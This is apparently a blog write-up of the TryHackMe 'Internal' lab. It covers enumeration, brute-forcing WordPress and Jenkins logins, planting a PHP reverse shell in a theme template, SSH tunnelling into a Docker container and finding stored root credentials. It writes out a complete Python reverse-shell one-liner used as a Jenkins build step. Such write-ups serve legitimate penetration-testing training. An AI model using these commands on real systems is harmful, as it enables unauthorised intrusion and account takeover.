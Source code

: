 ```yaml
---
layout: post
title: "Internal"
tags: TryHackMe
description: "Find your way through the WordPress site and escalate your privileges within a Docker container with Jenkins."
---
```


[Internal](https://tryhackme.com/room/internal) is the last machine in the "Advanced Exploitation" part of  TryHackMe's "Offensive pentesting" path.

---

## Enumeration

As I'm starting to prepare for my "Dry run" for the `OSCP` exam,  this time I will use more stuff from my methodology.  
We already learned that enumeration is crucial, right? So why would you leave a chance to mess it up, if you have more automated tools?  
Today I would use [Autorecon](https://github.com/Tib3rius/AutoRecon) for my initial enumeration.  
The syntax is simple:

```
autorecon <target_ip>
```
The tool will generate a bunch of scans and put all the results in a folder. Easy to follow up, easy to keep notes.  
Navigate to the `results/<target_ip>/report/notes.txt` and you will see all open ports:

```
[*] ssh found on tcp/22.



[*] http found on tcp/80.


```
You can keep track of your actions for each port right here.  
Secondly, `results/<target_ip>/scans/` folder contains all the fun stuff. If the tool will pick up a port, let's say port `80`, it will automatically start a sub-scan for tools like `nikto`,`gobuster`, etc.  
You will still need to analyze all of that stuff and maybe repeat some `gobuster` scans for subfolders, but just by using this tool, you increase your chance to find juicy stuff on your target.  
You might also like to use the `Sparta` for that, but I like the `Autorecon` a bit more.

---

## Exploitation

So, `Autorecon` picked up that there is a folder `/blog` on port `80`. You can see that the `WordPress` is running there, navigate to the panel, and try to login with something trivial as `admin:admin`.  

> internal.thm need to be added to the `/etc/hosts`

You will get the error message `Error: The password you entered for the username admin is incorrect.`.  
Now we know that the `admin` is a correct username, but the password is wrong.  
Let's use the `WPScan` to learn more about this setup and bruteforce the password:

```
wpscan --url http://internal.thm/blog/wp-login.php --usernames admin --passwords /usr/share/wordlists/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.7

       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
```
After a while the `WPScan` will wind the correct password for you:
```
[!] Valid Combinations Found:
 | Username: admin, Password: <redacted>
```
A standard way is to navigate to the `Theme editor`, and add a `php-reverse-shell` instead of one of the pages in a template.  
I usually go for `404.php` as it easy to trigger.  
You can grab your template for a reverse shell from [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). Don't forget to change your IP and port.  

If you're placing your shell instead of `404.php` page, you can trigger it by opening a page on the server that doesn't exist.
```
http://internal.thm/blog/index.php/41414141/
```

Catch the shell with the `nc`.

You can find the username `aubreanna` in the `/home` directory, but you can't access it yet.  
Let's look around.  

If you're stuck, check interesting directories like `/var/backups`, `/tmp`, `/opt`, etc. and check is there anything that stood out.  
The `/opt` directory in our case contains the file `wp-save.txt`:

```
cat wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:<reducted>
```

Now we can `ssh` to the box as user `aubreanna`:

```
ssh aubreanna@<target_ip>
```

Let's check what we have in the `/home` directory:
```
/home/aubreanna# ls
jenkins.txt  snap  user.txt
```

---

## PrivEsc

To PrivEsc here we need to enumerate a bit more:

```
cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
```

IP looks weird, it's different from the `<target_ip>`.

```
ip a

3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:a7:d9:5d:ec brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:a7ff:fed9:5dec/64 scope link
       valid_lft forever preferred_lft forever
```

Now we know that we are dealing with the `Docker` container with `Jenkins` inside.

To access it we can use `ssh-tunneling`:

```
ssh -L 8080:172.17.0.2:8080 aubreanna@<target_ip>
```

Now you can open `localhost:8080` in your browser and get access to the `Jenkins` login page.  
We don't have any credentials that will work here, so let's try a bruteforcing again.  

This time I will use `TurboIntruder` - the extension for the `Burp Suite`.
You can read more about it [here](https://portswigger.net/research/turbo-intruder-embracing-the-billion-request-attack).
I used `basic.py` script for the `TurboIntruder` and the `rockyou.txt` as a wordlist.  

You will find the password in less than a minute. You can say that by sorting the `Length` tab and finding the lowest size of the response.

Now you have access to `Jenkins`!

You can create the new `Build` and choose `Execute shell` in the options.  
I used the `python` reverse shell from `PentestMonkey` as a parameter:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",<your_port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Click `Build now` and catch your shell with the `nc`.  

```
jenkins@jenkins:/opt$ whoami
jenkins

jenkins@jenkins:/opt$ uname -a
Linux jenkins 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 GNU/Linux
```

We are within a `Docker` container now. Let's look around.

Frankly speaking, I expected to see something from [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) as a way to escape from the container, but the solution was way more simple.  
```
jenkins@jenkins:~$ cd /opt
jenkins@jenkins:/opt$ ls
note.txt
jenkins@jenkins:/opt$ cat note.txt

Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:<redacted>
```

Now you can `su` from the main box to the `root` user.

## Takeaway
- Sometimes, you feel that the solution is so easy, so you stumble the fact that each system could be different. Do not assume anything. Even the path that you followed 100 times before might not work out on 101st.  
- You can't rely on your enumeration tools 100% of the time, those `.txt` notes would be found by most of them
